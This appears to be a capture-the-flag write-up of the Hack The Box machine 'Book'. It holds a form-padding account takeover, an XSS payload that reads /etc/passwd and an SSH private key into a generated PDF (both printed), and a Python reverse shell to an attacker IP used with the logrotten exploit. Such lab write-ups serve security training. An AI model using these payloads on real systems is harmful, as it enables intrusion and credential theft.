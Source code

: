 ```yaml
---
title: "[HTB] Book WriteUp"
date: 2020-07-11T12:00:00-00:00
categories:
  - writeup
excerpt: "Book is a medium difficulty machine on Hack the Box. As always we begin by running an nmap scan."
tags:
  - HTB
  - hack the box
  - book
  - WriteUp
---
```


![Book]({{ site.url }}{{ site.baseurl }}/assets/book/book.jpg)


Book is a medium difficulty machine on Hack the Box. 

As always we begin by running an nmap scan.

```bash
nmap -sC -sV -oN scans/nmap 10.10.10.176
```
```bash
# Nmap 7.80 scan initiated Thu May 14 18:48:42 2020 as: nmap -sC -sV -oN scans/nmap 10.10.10.176
Nmap scan report for 10.10.10.176
Host is up (0.030s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 14 18:48:50 2020 -- 1 IP address (1 host up) scanned in 8.18 seconds

```


There are two open ports 22 and 80, lets look at the website on port 80.

![Login]({{ site.url }}{{ site.baseurl }}/assets/book/login.jpg)

We get a login page, so lets sign up. When we sign in we arrive at a Library's website. 

![Library]({{ site.url }}{{ site.baseurl }}/assets/book/library.jpg)

After poking around a bit we find there is an admin account admin@book.htb on the contact page. We also see that the user's page signifies the users role. There is also an upload function on the collections page.

Running Dirbuster also finds a /admin/ page.

We can try signing up for an account using the existing admin@book.htb account. Using BurpSuite we must pad out the request to 21 characters in order to bypass the JavaScript form validation. We can do this with spaces, the final character is arbitrary.

```
name=admin&email=admin@book.htb      X&password=password1
```

After logging in to the admin account we see in the user settings that the account only has 'User' role. Using the admin credentials on the /admin/ page doesn't work. If we repeat the process but change the name to admin1 we are able to login to the admin page. 

On the Collections page, the admin is able to download the collection as a PDF. The site generates these PDFs using the info supplied by the user, so we can use DOM manipulation to execute javascript, as described in this article 

[www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

The following payload will return /etc/passwd

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

After downloading the collections PDF we get /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:GnatsBug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd NetworkManagement,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemdResolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
reader:x:1000:1000:reader:/home/reader:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

We can see there is a user called reader, we can try to get the SSH key for this user by modifying our payload slightly.

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

After downloading the collections PDF again we get an SSH key:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----
```


We can now SSH in as reader@10.10.10.176.

We find User.txt in the home folder.

![Reader]({{ site.url }}{{ site.baseurl }}/assets/book/reader.jpg)

### Priv Esc

I start by running linPeas, which finds some interesting things

![linpeas]({{ site.url }}{{ site.baseurl }}/assets/book/linpeas.jpg)

We see that this machine is vulnerable to Logrotate exploitation. We can write to the log files in the backups folder in reader's home directory. Following the links from linPeas we get an exploit that we can use. [Logrotten](https://github.com/whotwagner/logrotten).

We transfer this to the target machine using wget. Then compile it:

```bash
reader@book:~ gcc -o logrotten logrotten.c
```

Then we will need a payload, We can use a python reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.53",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then set up a listener on the attacking machine.

```bash
nv -lvnp 9001
```

Then execute the exploit

```bash
reader@book:~ ./logrotten -p ./payloadfile /home/reader/backups/access.log
Waiting for rotating backups/access.log...
```

If we now write random data to the log, it should trigger our payload.

```bash
head -c 10M < /dev/urandom > access.log
```

And we get a reverse shell!

I found the shell was very unstable so had to quickly cat root.txt before the shell dropped.